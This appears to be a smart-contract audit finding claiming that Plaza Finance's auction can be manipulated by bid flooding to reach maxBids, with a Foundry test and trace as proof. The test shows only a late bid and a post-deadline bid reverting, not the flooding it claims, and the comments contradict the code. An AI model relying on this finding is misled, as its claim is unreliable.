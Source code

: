Wide Cedar Orca

Medium

# Auction Price Manipulation via Incremental Bid Flooding To Reach `maxBids`

### Summary

The attacker could win the auction at an unfairly low price, even though other legitimate participants are bidding higher, by flooding the auction with small incremental bids that push the price higher without truly increasing the value of the asset to reach the `maxBids` limit. This can result in unfair auction outcomes where the attacker wins with a low bid since no one can bid anymore.

### Root Cause

[`Auction.sol:125-171`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125-171) The issue arises when the auction contract does not have a sufficient mechanism to handle incremental bidding that is not in good faith. The attacker can monitor the auction and place very small bids (just higher than the current highest bid) *at the last minute or when the maxBids is almost reached*, which may push the price higher, but with no real intent to participate meaningfully, thus taking advantage of the auction’s bid-limiting system that only cares about the highest bid without considering the quality of that bid.

### Internal Pre-conditions

The auction must allow multiple bids per participant, with the auction price being based on the highest bid.
The contract may be vulnerable to bid flooding where small incremental bids are allowed.

### External Pre-conditions

The attacker needs to be able to monitor the mempool and know when bids are nearing the maximum bid count (maxBids).
The attacker must be able to submit bids just before the limit is reached, potentially on the last slot where there is only one slot left.

### Attack Path

1. Attacker Monitors Auction: The attacker monitors the auction and sees that the price is gradually increasing but also notices that only a few slots are remaining before the maxBids limit is reached.

2. Flooding with Small Incremental Bids: As the auction nears its maximum bid limit (maxBids), the attacker places a series of very small bids that are just slightly higher than the previous highest bid (for example, 0.01 ETH more than the last bid).

3. Max Bid Limit Reached: The auction hits its maxBids limit, and no more legitimate bids can be placed. Since the attacker flooded the auction with these small bids, they are able to outbid everyone with a minimal increase in their bid amount.

4. Attacker Wins with a Low Bid: The attacker wins the auction with a bid that is only marginally higher than the last legitimate bid, even though the auction value has been pushed higher through many of their incremental bids.

5. Legitimate Bidders Blocked: Due to the maxBids limit, legitimate bidders are unable to place higher bids, and the attacker secures the auction at an unfair price.

### Impact

1. Legitimate Bidders are unable to participate effectively in the auction, as the auction slots are filled by incremental, low-value bids.
2. Assets can be sold at a price much lower than expected, since the attacker’s strategy allows them to outbid others with minimal effort.
3. Unfair Auction Outcome: The auction is manipulated, with the attacker winning by placing many low-value incremental bids at the right time.

### PoC

```solidity
function testAuctionSnipingAttack() public {
    // Setup bidders
    address legitimateBidder = address(0x11111111);
    address attacker = address(0x22222222);
    uint256 slot = auction.slotSize();
    
    // Give tokens to both bidders
    usdc.mint(legitimateBidder, 2000 ether);
    usdc.mint(attacker, 1000 ether);

    // Legitimate bidder places an early bid
    vm.startPrank(legitimateBidder);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50 ether, slot); // Legitimate bid at start
    vm.stopPrank();

    // Skip time to 9 days, 23 hours, and 55 minutes (5 minutes before auction end)
    skip(9 days + 23 hours + 55 minutes);

    // Attacker places a bid in the last second
    vm.startPrank(attacker);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(55 ether, slot); // Last-minute bid to snipe the auction
    vm.stopPrank();

    skip(5 minutes);

    vm.startPrank(legitimateBidder);
    usdc.approve(address(auction), 1000 ether);
    vm.expectRevert();
    auction.bid(60 ether, slot); // Legitimate bid at start
    vm.stopPrank();

    assertEq(auction.bidCount(), 2, "Only two bids should have been placed");
  }

```

- Output

```bash
[PASS] testAuctionSnipingAttack() (gas: 529523)
Traces:
  [529523] AuctionTest::testAuctionSnipingAttack()
    ├─ [9541] ERC1967Proxy::slotSize() [staticcall]
    │   ├─ [4731] Auction::slotSize() [delegatecall]
    │   │   └─ ← [Return] 2000000000000 [2e12]
    │   └─ ← [Return] 2000000000000 [2e12]
    ├─ [48627] Token::mint(0x0000000000000000000000000000000011111111, 2000000000000000000000 [2e21])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x0000000000000000000000000000000011111111, value: 2000000000000000000000 [2e21])
    │   └─ ← [Return] 
    ├─ [24727] Token::mint(0x0000000000000000000000000000000022222222, 1000000000000000000000 [1e21])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x0000000000000000000000000000000022222222, value: 1000000000000000000000 [1e21])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000011111111)
    │   └─ ← [Return] 
    ├─ [24330] Token::approve(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 1000000000000000000000 [1e21])
    │   ├─ emit Approval(owner: 0x0000000000000000000000000000000011111111, spender: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 1000000000000000000000 [1e21])
    │   └─ ← [Return] true
    ├─ [243962] ERC1967Proxy::bid(50000000000000000000 [5e19], 2000000000000 [2e12])
    │   ├─ [243646] Auction::bid(50000000000000000000 [5e19], 2000000000000 [2e12]) [delegatecall]
    │   │   ├─ [25445] Token::transferFrom(0x0000000000000000000000000000000011111111, ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 2000000000000 [2e12])
    │   │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000011111111, to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 2000000000000 [2e12])
    │   │   │   └─ ← [Return] true
    │   │   ├─ emit BidPlaced(bidIndex: 1, bidder: 0x0000000000000000000000000000000011111111, buyReserveAmount: 50000000000000000000 [5e19], sellCouponAmount: 2000000000000 [2e12])
    │   │   └─ ← [Return] 1
    │   └─ ← [Return] 1
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(863701 [8.637e5])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000022222222)
    │   └─ ← [Return] 
    ├─ [24330] Token::approve(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 1000000000000000000000 [1e21])
    │   ├─ emit Approval(owner: 0x0000000000000000000000000000000022222222, spender: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 1000000000000000000000 [1e21])
    │   └─ ← [Return] true
    ├─ [125437] ERC1967Proxy::bid(55000000000000000000 [5.5e19], 2000000000000 [2e12])
    │   ├─ [125121] Auction::bid(55000000000000000000 [5.5e19], 2000000000000 [2e12]) [delegatecall]
    │   │   ├─ [3545] Token::transferFrom(0x0000000000000000000000000000000022222222, ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 2000000000000 [2e12])
    │   │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000022222222, to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 2000000000000 [2e12])
    │   │   │   └─ ← [Return] true
    │   │   ├─ emit BidPlaced(bidIndex: 2, bidder: 0x0000000000000000000000000000000022222222, buyReserveAmount: 55000000000000000000 [5.5e19], sellCouponAmount: 2000000000000 [2e12])
    │   │   └─ ← [Return] 2
    │   └─ ← [Return] 2
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(864001 [8.64e5])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000011111111)
    │   └─ ← [Return] 
    ├─ [2330] Token::approve(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 1000000000000000000000 [1e21])
    │   ├─ emit Approval(owner: 0x0000000000000000000000000000000011111111, spender: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 1000000000000000000000 [1e21])
    │   └─ ← [Return] true
    ├─ [0] VM::expectRevert(custom error f4844814:)
    │   └─ ← [Return] 
    ├─ [859] ERC1967Proxy::bid(60000000000000000000 [6e19], 2000000000000 [2e12])
    │   ├─ [542] Auction::bid(60000000000000000000 [6e19], 2000000000000 [2e12]) [delegatecall]
    │   │   └─ ← [Revert] AuctionHasEnded()
    │   └─ ← [Revert] AuctionHasEnded()
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [994] ERC1967Proxy::bidCount() [staticcall]
    │   ├─ [684] Auction::bidCount() [delegatecall]
    │   │   └─ ← [Return] 2
    │   └─ ← [Return] 2
    ├─ [0] VM::assertEq(2, 2, "Only two bids should have been placed") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 22.79ms (759.82µs CPU time)
```

### Mitigation

_No response_